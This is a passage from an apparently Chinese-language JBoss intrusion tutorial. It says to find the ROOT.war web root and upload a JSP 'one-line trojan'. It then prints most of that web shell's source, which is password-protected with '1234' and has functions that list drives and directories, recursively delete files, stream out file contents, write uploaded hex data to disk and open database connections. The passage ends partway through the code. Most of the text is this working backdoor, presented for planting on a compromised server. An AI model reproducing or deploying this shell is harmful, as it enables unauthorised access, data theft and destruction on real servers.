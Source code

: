 在文件管理中找出`ROOT.war`，一般的jboss web根目录位置在此($_jboss/server/default/deploy/jboss-web.deployer/ROOT.war)：

![](/img/hack/Jboss/1506391188138.png)


然后上传jsp一句话马：

```java
<%@page import="java.io.*,java.util.*,java.net.*,java.sql.*,java.text.*"%>
<%!
String Pwd="1234";
String EC(String s,String c)throws Exception{return s;}//new String(s.getBytes("ISO-8859-1"),c);}
Connection GC(String s)throws Exception{String[] x=s.trim().split("\r\n");Class.forName(x[0].trim()).newInstance();
Connection c=DriverManager.getConnection(x[1].trim());if(x.length>2){c.setCatalog(x[2].trim());}return c;}
void AA(StringBuffer sb)throws Exception{File r[]=File.listRoots();for(int i=0;i<r.length;i++){sb.append(r[i].toString().substring(0,2));}}
void BB(String s,StringBuffer sb)throws Exception{File oF=new File(s),l[]=oF.listFiles();String sT, sQ,sF="";java.util.Date dt;
SimpleDateFormat fm=new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");for(int i=0;i<l.length;i++){dt=new java.util.Date(l[i].lastModified());
sT=fm.format(dt);sQ=l[i].canRead()?"R":"";sQ+=l[i].canWrite()?" W":"";if(l[i].isDirectory()){sb.append(l[i].getName()+"/\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n");}
else{sF+=l[i].getName()+"\t"+sT+"\t"+l[i].length()+"\t"+sQ+"\n";}}sb.append(sF);}
void EE(String s)throws Exception{File f=new File(s);if(f.isDirectory()){File x[]=f.listFiles();
for(int k=0;k<x.length;k++){if(!x[k].delete()){EE(x[k].getPath());}}}f.delete();}
void FF(String s,HttpServletResponse r)throws Exception{int n;byte[] b=new byte[512];r.reset();
ServletOutputStream os=r.getOutputStream();BufferedInputStream is=new BufferedInputStream(new FileInputStream(s));
os.write(("->"+"|").getBytes(),0,3);while((n=is.read(b,0,512))!=-1){os.write(b,0,n);}os.write(("|"+"<-").getBytes(),0,3);os.close();is.close();}
void GG(String s, String d)throws Exception{String h="0123456789ABCDEF";int n;File f=new File(s);f.createNewFile();
FileOutputStream os=new FileOutputStream(f);for(int i=0;i<d.length();i+=2)
{os.write((h.indexOf(d.charAt(i))<<4|h.indexOf(d.charAt(i+1))));}os.close();}
```